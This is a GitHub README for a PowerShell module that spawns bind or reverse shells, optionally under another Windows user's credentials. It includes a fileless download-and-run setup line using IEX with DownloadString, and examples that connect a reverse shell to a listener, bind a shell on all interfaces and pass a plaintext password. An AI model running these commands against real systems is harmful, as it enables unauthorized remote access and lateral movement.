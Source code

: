 # PowerRemoteShell

A PowerShell module that can also function as a standalone script, enabling users to spawn either a bind or reverse shell. Additionally, it includes the capability to authenticate the shell session as a different Windows user.

## Quick Setup

```powershell
IEX (Get-Content .\PowerRemoteShell.psm1 -Raw)
```

Or

```powershell
IEX (New-Object Net.WebClient).DownloadString('<protocol>://<host>:<port>/<uri>/PowerRemoteShell.psm1')
```

Or Invoke-🧠

## Usage

| Parameter          | Type             | Default    | Description  |
|--------------------|------------------|------------|--------------|
| Address (*)        | String           | None       | For 'Reverse' mode, this specifies the remote machine to connect to (e.g., a Netcat listener). For 'Bind' mode, this defines the interface to bind to (e.g., 0.0.0.0 to listen on all interfaces). |
| Port (*)           | Integer (Word)   | None       | For 'Reverse' mode, this specifies the port on the remote machine to connect to. For 'Bind' mode, this defines the port to listen on. |
| Mode (*)           | Choice           | None       | Defines the type of remote shell: 'Reverse' (initiates a connection back to a listener) or 'Bind' (opens a port and waits for an incoming connection). |
| ShellKind          | Choice           | PowerShell | Specifies the shell application to capture and redirect to the network socket. Options include 'PowerShell', 'Cmd', or the default shell defined by the 'COMSPEC' environment variable. |
| Username           | String           | None       | An existing Microsoft Windows local user account.  |
| Password           | String           | None       | Password of specified user account. |
| Domain             | String           | None       | specify the domain of the user account under which the new process is to be started. |

`*` = Mandatory Options

### Examples

```powershell
# Listen on all interfaces (0.0.0.0) on port 2801 and spawn a command-line shell as the current user.
Invoke-RemoteShell -Address 0.0.0.0 -Port 2801 -Mode "bind" -ShellKind "cmd"

# Connect to the remote listener at 192.168.10.14:1403 and spawn a PowerShell shell as the current user.
Invoke-RemoteShell -Address 192.168.10.14 -Port 1403 -Mode "reverse"

# Listen on 192.168.10.14 (only) on port 1403 and spawn a PowerShell shell as the user 'darkcodersc'.
Invoke-RemoteShell -Address 192.168.10.14 -Port 1403 -Mode "bind" -Username "darkcodersc" -Password "mypassword"
```

![Example](images/example.png)

    Demonstrate a bind shell at the top, running as the currently logged-in user, and a reverse shell at the bottom, connecting as the user 'dark'.